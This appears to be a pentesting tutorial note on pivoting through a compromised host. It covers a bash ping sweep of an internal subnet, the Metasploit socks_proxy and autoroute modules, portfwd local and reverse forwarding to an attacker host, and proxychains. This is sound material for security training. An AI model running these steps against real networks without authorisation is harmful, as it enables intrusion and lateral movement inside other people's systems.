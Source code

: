 
- If we manage to obtain a meterpreter session on the pivot host, we can utilise the various modules at our disposal for tunneling and portforwarding without needing SSH
- Metasploit provides modules to start a socks proxy, add routes to the target environment and also remote and local port forwarding



#### How to do it

Suppose we have managed to gain a meterpreter session on a remote host. Upon enumerating the environment, we come across a different network environment  `172.16.5.129` of which the pivot host is a part.  We first start with a ping sweep to uncover live hosts in this isolated network



##### 1. Ping Sweep from the pivot box on the isolated network

```bash
for i in $(seq 1 254); do (ping 172.16.5.$i -c 1 | grep -i "Bytes From" &); done


[+] Output
172.16.5.19
```



##### 2. Start a socks proxy using metasploit

```bash
run auxiliary/server/socks_proxy
```




##### 3. Add routes to the isolated network via the pivot host

```bash
run post/multi/manage/autoroute
```




Now, we have done everything we need. We can further setup local or remote port forwarding as per requirement by using the `portfwd` command within an active session



##### Local port Forwarding

```bash
portfwd add -l local_port -p remote_port -r remote_host
```


##### Reverse Port Forwarding

```bash
portfwd add -R -l local_port -p remote_port -L attacker_host
```



Now, we can use proxychains to interact with the isolated network from the attacker machine via the SOCKS tunneling we have setup through the pivot box. 


